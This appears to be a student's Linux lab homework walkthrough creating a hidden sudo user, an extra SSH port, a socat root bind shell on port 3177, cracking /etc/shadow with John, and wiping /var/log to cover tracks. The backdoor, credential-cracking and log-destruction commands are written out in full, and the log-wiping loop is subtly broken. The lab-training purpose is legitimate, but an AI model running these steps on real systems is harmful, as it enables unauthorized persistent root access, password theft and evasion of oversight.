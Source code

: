 # Submission for Linux HW 3

Login to the VM as root.

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- `useradd sysd`

Give your secret user a password.
- `passwd sysd`

Give your secret user a system UID < 1000.
- `usermod -u 300 sysd`
 
Give your secret user the same GID
- `groupmod -g 300 sysd`

Give your secret user full sudo access without the need for a password.
- `visudo`
- Add the line: `sysd ALL(ALL:ALL) NOPASSWD:ALL` under the root entry:

```bash
# User privilege specification
root    ALL=(ALL:ALL) ALL
sysd    ALL=(ALL:ALL) NOPASSWD:ALL
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
```

Test that sudo access works without your password:
```bash
$ su sysd
password:
$ sudo -l
Matching Defaults entries for sysd on scavenger-hunt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysd may run the following commands on scavenger-hunt:
    (ALL : ALL) NOPASSWD: ALL
```

## Allow ssh access over port 2222.

```bash
# Make changes to the sshd_config file
$ nano /etc/ssh/sshd_config

# Add an extra Port line:
Port 22
Port 2222
``` 

Restart the ssh service:
- `service ssh restart`
- OR: `systemctl restart ssh`

Note the IP address of this system:
- `ifconfig`
- Use the IP address for `eth1` interface.

Exit the root accout.
- `exit`

SSH to the machine using your sysd account and port 2222
- `ssh sysd@<your-IP-address>:2222`

Use sudo to switch to the root user
- `sudo su`

## Create a backdoor with socat

- Install socat
  - `apt install socat -y`
- Run Socat command in the background
  - `socat TCP4-Listen:3177,fork EXEC:/bin/bash &`
- Explain each part of the socat command:
  - `socat` Calls the socat program
  - `TCP4-Listen:3177` Listen for TCP connections on port `3177`
  - `,fork` Allows multiple TCP connections at once
  - `EXEC:/bin/bash` Run a Bash shell over this connection
  - `&` Run this command in the background

- Exit SSH session
  - `exit`
- Test socat connection from your local machine

```bash
$ socat STDIO TCP4:<Your-IP-address>:3177
whoami
root
```
- Close the socat connection with `CTRL + c`

## Crack _all_ the passwords
SSH back to the system using your sysd account and port 2222
- `ssh sysd@<your-ip-address>:2222`
- Use John to crack the entire /etc/shadow file
    - `sudo su`
    - `john /etc/shadow`
    - Wait approximately 5-10 mins for john to crack _all_ the passwords.
        - This partly depends on what password you set for your `sysd` user.

```bash
# john /etc/shadow
Created directory: /root/.john
Loaded 7 password hashes with 7 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
Goodluck!        (student)
```

## Cover your tracks
Use socat and a for loop to clear all system logs.

```bash
$  $ socat STDIO TCP4:172.28.128.49:3177
whoami
root
for i in $(ls /var/log); do echo '' > $i;
 done

```